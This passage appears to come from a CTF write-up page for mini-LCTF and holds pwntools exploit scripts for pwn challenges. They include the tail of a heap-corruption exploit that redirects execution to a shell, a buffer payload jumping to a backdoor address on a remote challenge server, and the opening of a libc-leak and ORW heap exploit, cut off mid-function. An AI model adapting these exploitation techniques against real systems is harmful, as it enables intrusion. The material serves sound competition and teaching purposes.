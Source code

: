 ```python
add(0x60, 'BBBB') # 1
add(0x60, 'CCCC') # 2
dele(1)
edit(0, 0, 'D' * (0x60 + 0x8) + p64(0x71) + p64(prt_arr - 11 - 8))
add(0x60, 'EEEE') # 1
add(0x60, 'FFFF') # 3 prt_arr
edit(3, 0, 'G' * 3 + p64(0x602018) * 4)
edit(0, 0, p64(get_shell))
dele(0)

# gdb.attach(io)

io.interactive()
```

### easycpp | Author：Lunatic

```python
# nc pwn.challenge.mini.lctf.online 10008

from pwn import *

context.log_level = 'debug'

if args.G:
    io = remote('pwn.challenge.mini.lctf.online', 10008)
else:
    io = process('./easycpp')

backdoor = 0x80487BB
buf = 0x804A0C0

payload = p32(buf + 4) + p32(backdoor)

# gdb.attach(io)

io.sendline(payload)

io.interactive()
```

### heap_master | Author：Lunatic

nc 后进行 double free 操作，发现程序没有 crash，说明服务器上使用的 libc 版本应该为 2.27（根据 sad 的 hint）。接下来的流程便是泄露 libc 地址，通过 environ 泄露栈地址，将 payload 写入栈中，orw 读取 flag（prctl 函数限制）。

#### 利用脚本如下：

```python
# pwn.challenge.mini.lctf.online 10008

from pwn import *

context.log_level = 'debug'

if args.G:
    io = remote('pwn.challenge.mini.lctf.online', 10008)
else:
    io = process('./pwn')

def add(size, content):
    io.recvuntil('>> ')
    io.sendline('1')
    io.recvuntil('size?')
```